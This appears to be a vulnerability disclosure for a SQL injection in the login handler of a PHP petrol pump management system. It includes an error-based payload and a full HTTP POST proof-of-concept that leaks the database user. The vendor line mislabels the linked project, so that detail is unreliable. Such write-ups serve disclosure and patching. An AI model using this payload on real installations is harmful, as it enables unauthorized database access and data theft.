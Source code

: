 # SQLi-4

# Vulnerability Description

The Petrol pump management System in PHP Free Source Code (It is an open source project from [https://codeastro.com/](https://codeastro.com/)) has SQL injection vulnerabilities, which can lead to database information leakage.

1. BUG_Author:
2. vendors: [https://codeastro.com/membership-management-system-in-php-with-source-code/](https://www.sourcecodester.com/php/17180/petrol-pump-management-software-free-download.html);
3. The program is built using the PHP 7.3.4nts version;
4. Vulnerability location: /admin/app/login_crud.php

[+] Payload:

```http
'and/**/extractvalue(1,concat(char(126),user()))and'
```

POC：

```http
POST http://192.168.10.108/fuelflow/admin/app/login_crud.php HTTP/1.1
Host: 192.168.10.108
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 110
Origin: http://192.168.10.108
Connection: close
Referer: http://192.168.10.108/fuelflow/index.php
Cookie: PHPSESSID=p5a1pv4juicgdu3qcpo85v2h4t
Upgrade-Insecure-Requests: 1

email=mayuri.infospace%40gmail.com'and/**/extractvalue(1,concat(char(126),user()))and'&password=admin1&submit=
```

## How to verify

Build the vulnerability environment according to the steps provided by the source code author and execute the poc provided above：

​![image](assets/image-20240227223654-j5aegt4.png)​
